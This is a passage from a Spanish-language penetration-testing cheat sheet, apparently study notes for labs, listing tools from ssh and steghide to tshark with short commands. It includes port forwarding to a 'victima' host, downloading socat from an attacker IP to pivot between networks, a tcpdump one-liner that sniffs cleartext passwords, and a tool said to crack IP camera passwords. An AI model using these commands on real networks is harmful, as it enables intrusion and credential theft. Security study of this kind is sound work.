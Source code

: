 [https://neverendingsecurity.wordpress.com/2015/04/13/ss-socket-statistics-commands-cheatsheet/](https://neverendingsecurity.wordpress.com/2015/04/13/ss-socket-statistics-commands-cheatsheet/)

**Ssh**

-o StrictHostKeyChecking=no ---\&gt;evita que pida confirmaciòn

Portforward

ssh -L 80:172.0.0.1:80 root@victima



**Steghide** -\&gt; programa de esteganografía

steghide embed -ef sample.txt -cf image.jpg -sf output.jpg

Steghide extract -sf image.jpg -p \&lt;pass\&gt;

**Stegsnow**

Stegsnow –m secreto infile outfile

Stegsnow –C outfile

![](RackMultipart20210412-4-pcx9xb_html_326d904960aafb43.png)

**Shodan** -\&gt; herramienta que indexa en la Internet todos los equipos conectados IoT, con la descripción del tipo de equipo, servicios expuestos, versiones y demás características relevantes

**Shodanwave** _-\&gt; Permite buscar cámaras ip vía shodan y crackear sus password._

_ **Socat** _ _para pivotear en otra red (o para hacer port forwarding)_

cd /tmp

wget [http://10.10.14.6/socat](http://10.10.14.6/socat) (hay que levantar un servicio web para ofrecerlo)

chmod +x socat

./socat tcp-listen:\&lt;ipquequierousar\&gt;,reuseaddr,fork tcp:\&lt;ip\&gt;:\&lt;ipreal\&gt;

**tcpdump** : mini wireshark

tcpdump -i tun0 icmp

tcpdump port http or port ftp or port smtp or port imap or port pop3 -l -A | egrep -i &#39;pass=|pwd=|log=|login=|user=|username=|pw=|passw=|passwd=|password=|pass:|user:|username:|password:|login:|pass |user &#39; --color=auto --line-buffered -B20

**TheHarvester** -\&gt; recopila información (ejecutar en modo sudo, dado que es necesario escribir datos en disco)

[**The LAZY script**](https://github.com/arismelachroinos/lscript) **-\&gt; FrameWork de tareas automatizadas en base a script, muy completo.**

**Tplmap - descubre vulnerabilidades de LFI de java (**[https://github.com/epinna/tplmap](https://github.com/epinna/tplmap))

**Tshark** -\&gt; línea de comando de wireshark. Puede mostrar estadísticas de un .pcap

tshark -nnr imadecoy -qz io,phs (estadísticas de jerarquía)
